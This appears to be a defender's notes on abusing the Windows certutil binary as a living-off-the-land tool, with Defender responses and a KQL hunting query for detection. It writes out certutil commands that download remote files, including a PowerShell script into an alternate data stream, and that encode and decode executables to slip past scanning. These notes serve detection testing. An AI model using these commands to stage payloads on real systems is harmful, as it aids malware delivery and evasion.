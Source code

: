 # Lolbas CertUtil

[Lolol Farm](https://lolol.farm/) is a project that groups all living of the land techniques. [Lolbas](https://lolbas-project.github.io/#) is specifically targetting Windows binaries. [Certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is one of these binaries that can be abused.

## Enumeration of Infrastructure

You can enumerate the PKI infrastructure with `certutil`:

```Shell
certutil.exe
```

This command yields you:

* the name of the server is that is the certificate authority
* the domain for that system

## Download file from Internet Case 1

Test:

```Shell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

This gets detected and prevented by Microsoft Defender but (16th of January 2025) instead of detecting the download using a lolbin it named the incident `Defender prevented execution of 'Trojan:Win/Ceprolad.A' in the command line ...`.
It tags it as a `low` priority event since it got prevented. I attempted to do a localhost download, but that failed too, the block is thus not on the fact the url is public or local.

## Download file from Internet Case 2

Test:

```Shell
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

This gets detected and prevented by Microsoft Defender but (16th of January 2025) instead of detecting the download using a lolbin it named the incident `Defender prevented execution of 'Trojan:Win/Ceprolad.A' in the command line ...`.
It tags it as a `low` priority event since it got prevented. I attempted to do a localhost download, but that failed too, the block is thus not on the fact the url is public or local.

## Download file from Internet and Save to alternate data stream

Test:

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Xiobe/Get-ShortcutsContent/refs/heads/main/Get-LNKShortcutsContent.ps1 c:\temp:ttt
```

## Encode a file

### Encode to a base64 encoded file

Test:

```
certutil -encode c:\windows\system32\calc.exe encoded_calc.exe
```

### Encode to a hexadecimal encoded file

Test:

```
certutil -encodehex c:\windows\system32\calc.exe encodedhex_calc.exe
```

## Decode a file

### Decode a base64 file

Test:

```
certutil -decode encoded_calc.exe decoded_calc.exe
```

Microsoft Defender detects the decoding as `Use of living-off-the-land binary to run malicious code`. You can not however fetch the encoded file nor the decoded file from the user interface. If you need these files you will need to retrieve them with a `getfile` from the system by running a `live session`. Interestingly in the timeline the 'suspicious' executables are `cmd.exe` and `certutil` and not the encoded and decoded one.

### Decode a hexadecimal encoded file

Test:

```
certutil -decodehex encodedhex_calc.exe decodedhex_calc.exe
```

## Hunting Queries

### Detection of the encoding/decoding

```Text
DeviceFileEvents
| where ActionType == "FileCreated"
| where InitiatingProcessFileName == @"certutil.exe"
| project TimeGenerated, InitiatingProcessCreationTime, InitiatingProcessAccountUpn,  InitiatingProcessCommandLine, FolderPath, SHA256, DeviceName, InitiatingProcessSessionId, InitiatingProcessRemoteSessionDeviceName, InitiatingProcessRemoteSessionIP
```

| Column | Interpretation |
| ------ | -------------- |
| `TimeGenerated` | The timestamp the entry was generated on the system the event occured. |
| `InitiatingProcessCreationTime` | The timestamp the initiating process was created. |
| `InitiatingProcessAccountUpn` | The account the initiating process was started with. |
| `InitiatingProcessCommandLine` | The command line for the initiating process |
| `FolderPath` | The folder path of the resulting file. This can be handy if not mentioned in the `InitiatingProcessCommandLine` |
| `SHA256` | The SHA256 of the output file. |
| `DeviceName` | The device on which the `InitiatingProcessCommandLine` was executed. |
| `InitiatingProcessSessionId` | The session ID in which the `InitiatingProcessCommandLine` was executed. If 0 it executed in system context, 1 means the logged on user and more than 1 typically is a remote user. |
| `InitiatingProcessRemoteSessionDeviceName` | The remote system's name the `InitiatingProcessSessionId` originated from. This is empty if it was the local system. |
| `InitiatingProcessRemoteSessionIP` | The remote system's IP address the `InitiatingProcessSessionId` originated from. This is empty if it was the local system.|

|||
